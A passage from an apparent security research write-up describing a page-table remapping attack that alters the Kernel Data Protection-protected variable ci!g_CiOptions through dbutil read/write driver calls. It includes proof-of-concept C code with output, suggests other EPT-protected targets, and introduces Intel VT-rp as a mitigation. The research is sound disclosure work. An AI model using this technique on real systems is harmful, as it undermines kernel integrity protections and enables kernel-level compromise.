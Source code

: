         // Show the current ci!g_CiOptions value
        UINT32 cioptions_value = -1;
        dbutil_read(hDevice, cioptions_addr, &cioptions_value, sizeof(cioptions_value));
        printf("ci!g_CiOptions:\n");
        printf("0x%llx  %08x\n", cioptions_addr, cioptions_value);

        // Change the value of PTE to point to the new GPA
        printf("\nRemapping LA of ci!g_CiOptions\n\n");
        dbutil_write(hDevice, pte_addr, &new_pte_value, sizeof(new_pte_value));

        // Show the current ci!g_CiOptions value
        cioptions_value = -1;
        dbutil_read(hDevice, cioptions_addr, &cioptions_value, sizeof(cioptions_value));
        printf("ci!g_CiOptions:\n");
        printf("0x%llx  %08x\n", cioptions_addr, cioptions_value);
    }
    ```

    Executing the above code shows `ci!g_CiOptions` became zero after remapping.
    ```
    ...
    ci!g_CiOptions:
    0xfffff8024b082004  0001c006

    Remapping LA of ci!g_CiOptions

    ci!g_CiOptions:
    0xfffff8024b082004  00000000
    ```

At this point, we effectively modified the contents of the variable that is supposed to be read-only with KDP.

Important to note that making `ci!g_CiOptions` zero under this setup (ie, HVCI enabled) does not let you load an unsigned driver. The secure kernel still performs its own certificate check, detects the issue, and bug checks the system (<a name="body1">[*1](#note1)</a>).

Instead, it is more interesting to think about new targets of this attack. For example, Windows maintains the bitmap that indicates valid destinations of indirect calls for kernel-mode Code Flow Guard (kCFG). For kCFG to be effective against kernel-mode exploits, this bitmap is write-protected through EPT. An attacker, however, might be able to remap the LA of the bitmap to a new GPA to make her shell-code valid destination. Another approach is replacing a sensitive function pointers as demonstrated in [Code Execution against Windows HVCI](https://datafarm-cybersecurity.medium.com/code-execution-against-windows-hvci-f617570e9df0) by [Worawit](https://twitter.com/sleepya_).

Really, anything marked as read-only in EPT could be an interesting target of the remapping attack. On the above-mentioned Windows setup, [there are several such regions](https://gist.github.com/tandasat/a4092484c63b0390b45e93140f080795).


## Intel VT Redirect Protection (VT-rp)

Preventing the remapping attack without substantial performance impact is deemed unachievable. A hypervisor could make the guest paging structures read-only and inspect each write operation, but that incurs a non-negligible performance impact due to frequent VM-exit. Hence, Intel came up with a processor extension branded as Intel VP Redirect Protection (VT-rp).
